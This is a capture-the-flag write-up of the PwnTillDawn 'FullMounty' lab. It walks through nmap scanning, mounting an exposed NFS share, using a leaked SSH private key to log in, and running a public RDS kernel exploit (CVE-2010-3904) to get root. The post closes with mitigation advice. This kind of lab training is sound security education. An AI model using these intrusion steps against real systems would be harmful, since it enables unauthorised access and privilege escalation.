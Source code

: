 ```yaml
---
title: "PwnTillDawn - fullmounty"
author: Nasrallah
description: ""
date: 2025-04-19 07:00:00 +0000
categories : [PwnTillDawn]
tags: [pwntilldawn, linux, medium, kernel, cve, nfs, ssh]
img_path: /assets/img/pwntilldawn/fullmounty
image:
    path: fullmounty.png
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---

[FullMounty](https://online.pwntilldawn.com/Target/Show/64) from [PwnTillDawn](https://online.pwntilldawn.com/) starts with an NFS share containing ssh keys, we use the private key to gain initial foothold. The kernel used by the system is outdated with a vulnerability in RDS that leads to privilege escalation giving us a root shell.

## **Enumeration**

### nmap

We start an Nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.150.150.134
Host is up (0.15s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 5.3p1 Debian 3ubuntu7.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 f6:e9:3f:cf:88:ec:7c:35:63:91:34:aa:14:55:49:cc (DSA)
|_  2048 20:1d:e9:90:6f:4b:82:a3:71:1e:a9:99:95:7f:31:ea (RSA)
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/udp   nfs
|   100005  1,2,3      34154/tcp   mountd
|   100005  1,2,3      50354/udp   mountd
|   100021  1,3,4      45783/tcp   nlockmgr
|   100021  1,3,4      48262/udp   nlockmgr
|   100024  1          38840/udp   status
|_  100024  1          40110/tcp   status
2049/tcp open  nfs      2-4 (RPC #100003)
8089/tcp open  ssl/http Splunkd httpd
|_http-server-header: Splunkd
|_http-title: splunkd
| http-robots.txt: 1 disallowed entry 
|_/
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2019-10-28T09:51:59
|_Not valid after:  2022-10-27T09:51:59
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found 4 open ports, 22 running OpenSSH, 111 running rcp, 2049 is an NFS server and 8089 is running splunk on HTTPS.

### NFS

Let's start with NFS and list any available shares.

```terminal
sudo showmount -e 10.150.150.134
Export list for 10.150.150.134:
/srv/exportnfs 10.0.0.0/8
```

We found a `/srv/exportnfs` share, let's mount it.

```terminal
[★]$ sudo mount -t nfs 10.150.150.134:/srv/exportnfs /mnt/ctf -o nolock       
mount.nfs: mount system call failed
```

I got an error when mounting the share. With the help of chatGPT I added the vesion to be used in the command and it worked!

```bash
sudo mount -t nfs 10.150.150.134:/srv/exportnfs /mnt/ctf -o nolock,vers=3
```

Let's list the content of the share.

```terminal
┌──[10.66.66.230]─[sirius💀parrot]-[~/ctf/ptd/full]
└──╼[★]$ ls -la /mnt/ctf
total 32
drwxr-xr-x 5 nobody nogroup 4096 Oct 29  2019 .
drwxr-xr-x 1 root   root       6 Jan 21 11:16 ..
-rw------- 1 nobody nogroup  667 Oct 29  2019 .bash_history
drwxr-xr-x 5 nobody nogroup 4096 Oct 29  2019 .config
-rw-r--r-- 1 sirius docker    41 Oct 22  2019 FLAG49
-rw-r--r-- 1 sirius docker  1675 Oct  3  2019 id_rsa
-rw-r--r-- 1 sirius docker   397 Oct  3  2019 id_rsa.pub
drwxr-xr-x 3 nobody nogroup 4096 Oct 29  2019 .local
drwxr-xr-x 3 nobody nogroup 4096 Oct 29  2019 .mozilla
```

We found an SSH key pair.

I'll copy both to my working directory, give the write permissions to the private key and connect with it.

```terminal
┌──[10.66.66.230]─[sirius💀parrot]-[~/ctf/ptd/full]
└──╼[★]$ cp /mnt/ctf/id_rsa* .
```

Wait, we need a username to connect as? We can simply grab that from the public key.

```terminal
[★]$ cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEAucbPtwj/Ot2rkrMxBSo63gnu8cUE2NboLy226zUjXwdeSLsh9WPfON/atMJCg/uMcvlpo598E/qUsAJq3TTJTYbdMkVSH3ArxUI0gN9rNVeOOs+MBFqfXYhfyLCFv+wtKyYDMeOxTE63hhEdbKVcGLCW8qhp6yORE7CcDnXqcCP5mJHlKdUqC9VBiYzcOzcKqSh6eCpfraKGsXqOcVvHVMgK8TB/JEHxkIZY2nxEl1WC62LKctEx0ZV7KTgJHhpWy1wyiPir4FOSPWUvUZDGv15B3D/M6UCRIguFllFerAacFVPW7SmKdtV3p4+HY3H1clAsWoLJiV1DRiBxoqZgEQ== deadbeef@ubuntu
```

It's `deadbeef`, let's connect.

## **Foothold**

```terminal
[★]$ ssh -i id_rsa deadbeef@10.150.150.134                                    
Unable to negotiate with 10.150.150.134 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss
```

I got an error here regarding the key type, I'll add that type of key with `-oHostKeyAlgorithms=+ssh-rsa` and then reconnect.

```terminal
[★]$ ssh deadbeef@10.150.150.134 -i id_rsa -oHostKeyAlgorithms=+ssh-rsa                                                                                                                   
sign_and_send_pubkey: no mutual signature supported                                                                                                                                           
deadbeef@10.150.150.134: Permission denied (publickey).
```

Got another error! We solve that with the option `-oPubkeyAcceptedAlgorithms=+ssh-rsa`.

```terminal
[★]$ ssh deadbeef@10.150.150.134 -i id_rsa -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedAlgorithms=+ssh-rsa
Linux FullMounty 2.6.32-21-generic #32-Ubuntu SMP Fri Apr 16 08:10:02 UTC 2010 i686 GNU/Linux
Ubuntu 10.04.4 LTS

Welcome to Ubuntu!
 * Documentation:  https://help.ubuntu.com/
New release 'precise' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Thu Apr 17 09:49:55 2025 from 10.66.66.230
deadbeef@FullMounty:~$ id
uid=1000(deadbeef) gid=1000(deadbeef) groups=4(adm),20(dialout),24(cdrom),46(plugdev),107(lpadmin),108(sambashare),109(admin),1000(deadbeef)
```

## **Privilege Escalation**

Running `uname -a` on the target we find it using a pretty old kernel.

```terminal
deadbeef@FullMounty:~$ uname -a
Linux FullMounty 2.6.32-21-generic #32-Ubuntu SMP Fri Apr 16 08:10:02 UTC 2010 i686 GNU/Linux
```

After searching on google for exploits and with some trial and error, we ended up with this [exploit](https://github.com/lucyoa/kernel-exploits/tree/master/rds) that works just fine.

Download the rds precompiled binary and upload it to the target then run it.

```terminal
deadbeef@FullMounty:~$ chmod +x rds 
deadbeef@FullMounty:~$ ./rds 
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc08c8c2c
 [+] Resolved default_security_ops to 0xc0773300
 [+] Resolved cap_ptrace_traceme to 0xc02f3dc0
 [+] Resolved commit_creds to 0xc016dcc0
 [+] Resolved prepare_kernel_cred to 0xc016e000
[*] Overwriting security ops...
[*] Overwriting function pointer...
[*] Triggering payload...
[*] Restoring function pointer...
[*] Got root!
# id
uid=0(root) gid=0(root)
```

We got root!

## **Prevention and Mitigation**

### NFS share

We found an NFS service running on the target, listening on port 2049. The server was exporting the share /srv/exportnfs, which was accessible to any machine within the 10.0.0.0/8 IP range.

This share appeared to contain a user’s home directory, within which we discovered SSH keys. These keys were used to gain unauthorized access to the target system.

#### Recommendations for NFS Configuration

- Never expose sensitive directories such as home directories, which may contains private keys or credentials.

- Create a dedicated directory for NFS sharing, and apply strict content and permission controls

- Limit the access to only trusted hosts/subnets and avoid using broad CIDR ranges like `10.0.0.0/8`

#### Recommendations for SSH Key Handling

- SSH private keys should never be stored on shared or network-accessible locations. They should be kept in the user's local home directory with proper file permissions (chmod 600).

- Use passphrase-protected SSH keys to minimize the risk of unauthorized access if the key is ever leaked.

### Kernel

The kernel version identified on the target system is outdated and contains a known vulnerability in RDS, for which a publicly available exploit exists on the internet. This vulnerability can be leveraged to escalate privileges to root.

- Update the kernel to a newer version that fixes the vulnerability in RDS.
- Establish and maintain a regular patch management schedule to ensure critical security updates are applied in a timely manner, reducing exposure to known exploits.

## **References**

<https://github.com/lucyoa/kernel-exploits/tree/master/rds>

<https://nvd.nist.gov/vuln/detail/cve-2010-3904>

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
